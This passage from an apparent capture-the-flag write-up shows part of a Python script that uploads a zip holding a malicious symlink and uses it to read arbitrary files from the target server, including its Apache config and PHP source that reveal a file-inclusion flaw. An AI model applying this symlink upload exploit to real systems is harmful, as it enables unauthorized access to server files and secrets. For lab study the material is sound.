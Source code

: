 ```python
files = ('zon.zip', buffer.getbuffer(), {"Content-Type": "application/zip"})

# We then send the zip file to the host
resp = requests.post(f'http://{host}/upload.php',
              files={"zipFile": ('zon.zip', buffer.getbuffer(), {"Content-Type": "application/zip"})},
              data={"submit": ""}
              )

# Parse out the upload path
(url, ) = re.findall(r'path:</p><a href="(.*)">\1</a>', resp.text)

# Send a get request to the host with the url of the the malicious symlink to get the contents 
resp = requests.get(f'http://{host}/{url}')
sys.stdout.buffer.write(resp.content)
```

Running the script I can see the hostname of the machine, proving that this works.
```bash
python3 zipping.py /etc/hostname
zipping
```

In our reconnaissance phase, we identified that the webserver is running Apache2. To gain insights into the file system structure of the application, I examined the configuration files. The output indicates that this site is hosted from `/var/www/html` and includes a `/uploads` directory.
```
python3 zipping.py /etc/apache2/sites-available/000-default.conf
[snip]
ServerAdmin webmaster@localhost 
DocumentRoot /var/www/html
     <Directory /var/www/html/uploads>
            Options -Indexes
     </Directory>
```

Upon revisiting the gathered information, three noteworthy pages emerged: "Contact Us" at the root `/`, "Shop" at `/shop`, and "Work With Us" at `/upload.php`. While the root page `/index.php` contained HTML content, the home page of the Shop, specifically `/shop/index.php`, revealed PHP code. This code shed light on the reason why the directory traversal only proved effective on certain files—it systematically appends `.php` to the end of every page.
```php
python3 zipping.py /var/www/html/shop/index.php

<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>
```
